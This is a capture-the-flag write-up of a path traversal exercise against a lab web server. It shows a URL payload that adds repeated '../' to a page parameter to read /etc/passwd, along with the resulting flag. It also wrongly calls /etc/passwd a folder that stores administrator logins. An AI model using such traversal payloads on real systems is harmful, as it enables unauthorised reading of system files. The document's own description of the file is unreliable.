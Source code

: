 # 10_I_know_architecture

Unsecure file stored in the website
http://192.168.99.100

## How to see it

Go on the page mentionned before.
All the website are built by the same way and that all website running on UNIX contain a folder: /etc/passwd
So we are going to try and find it by going up in the arborescence of our website by adding "../" to the asked URL.
We will finally find:

```bash
http://192.168.99.100/?page=../../../../../../../etc/passwd
```

Which will print us:
```bash
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
```
Thanks UNIX :)
## How to abuse of it

In this file are stored all root and login from the administrator of the website

## How to patch it

Once again protect your files :(
